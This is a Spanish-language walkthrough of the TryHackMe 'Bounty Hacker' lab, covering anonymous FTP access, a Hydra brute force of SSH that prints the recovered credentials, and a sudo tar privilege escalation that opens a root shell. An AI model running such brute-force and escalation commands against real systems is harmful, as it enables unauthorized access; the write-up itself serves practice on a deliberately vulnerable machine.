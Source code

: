 ```yaml
---
title: Bounty Hacker
date: 2024-01-17 16:00 +/-0000
categories: TryHackMe Máquina
tags:
  - bountyhacker
  - tryhackme
  - easy
author: okud4
toc: true
---
```


## RECONOCIMIENTO

Empezamos investigando la máquina accediendo a su dirección ip por nuestro navegador, y como resultado, nos muestra una página web

![](/assets/img/capturas/bountyhacker/webpage.png)

Seguimos analizando su código, por si descubrimos algo interesante.

![](/assets/img/capturas/bountyhacker/webpage-code.png)

Hasta ahora no encontramos nada llamativo.

## ESCANEO Y ENUMERACIÓN

Escaneamos la dirección IP con Nessus y analizamos los resultados obtenidos.

- Encontramos los puertos 21, 22 y 80:

![](/assets/img/capturas/bountyhacker/bountyports.png)

- Sitemap con los directorios encontrados a los que podemos acceder

![](/assets/img/capturas/bountyhacker/bountysitemap.png)

- Servidor Apache

![](/assets/img/capturas/bountyhacker/bountyapacheserver.png)

Accedemos a la carpeta `http://<ip server>/images/`y descargamos la foto `crew.jpg` para poder analizar su contenido. Existen varias herramientas, en este caso usare [AperiSolve](https://wwww.aperisolve.com). Tras analizar la imagen, no obtenemos nada importante.

Habíamos localizados dos puertos abiertos, el 21 (ftp) y el 22 (ssh).

#### **_FTP_**

Empezaremos a investigar el ftp, en busca de archivos que contengan información que nos pueda ser útil.

```bash
❯ ftp -v 10.10.165.251
Connected to 10.10.165.251.
220 (vsFTPd 3.0.3)
Name (10.10.165.251:okud4): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||44252|)
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
229 Entering Extended Passive Mode (|||48913|)
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*********************|   418        1.72 MiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (8.29 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
229 Entering Extended Passive Mode (|||42990|)
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*********************|    68      133.34 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (1.34 KiB/s)
```

Ahora procedemos a ver el contenido de ambos archivos .txt

El archivo `locks.txt` parece ser posibles contraseñas y el archivo `task.txt` contiene la respuesta a una de las preguntas.

#### **_SSH_**

Ahora que tenemos una lista de usuarios, podemos acceder por ssh a nuestra máquina, pero nos falta obtener la clave, así que tenemos que conseguir el acceso por fuerza bruta usando #Hydra.

Pero antes de nada, volvemos a inspeccionar el contenido de la web en busca de algún dato importante. Vemos que el contenido es un dialogo entre cuatro personas… Tomaremos sus nombres, junto con el nombre de usuario que encontramos en `task.txt` y creamos un nuevo diccionario de nombres de usuario llamado `users.txt`. Este diccionario lo tomaremos junto con el archivo `locks.txt` para poder obtener el usuario y la clave de acceso para la conexión SSH.

```bash

❯ hydra -L users.txt -P locks.txt 10.10.244.57 ssh -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-17 19:44:12
[DATA] max 4 tasks per 1 server, overall 4 tasks, 130 login tries (l:5/p:26), ~33 tries per task
[DATA] attacking ssh://10.10.244.57:22/
[22][ssh] host: 10.10.244.57   login: lin   password: RedDr4gonSynd1cat3

```

## EXPLOTACIÓN

Nos conectamos vía ssh al servidor con las credenciales que hemos obtenido anteriormente. Una vez dentro de el servidor, listamos los archivos que se encuentren dentro de la carpeta `~/Desktop` y obtenemos el archivo `user.txt` el cual contiene la primera flag.

![](/assets/img/capturas/bountyhacker/bountyfirstflag.png)

## ESCALADA DE PRIVILEGIOS

Usando el comando `sudo -l` nos proporciona la información necesaria para poder obtener el vector de ataque a través de los archivos binarios. Para ello, nos ayudamos de la página [GTFOBINS](https://gtfobins.github.io/gtfobins/tar/#sudo)

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin:
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
<udo tar -cf /dev/null /dev/null --c                              </dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# ls /root
root.txt
# cat /root/root.txt
```
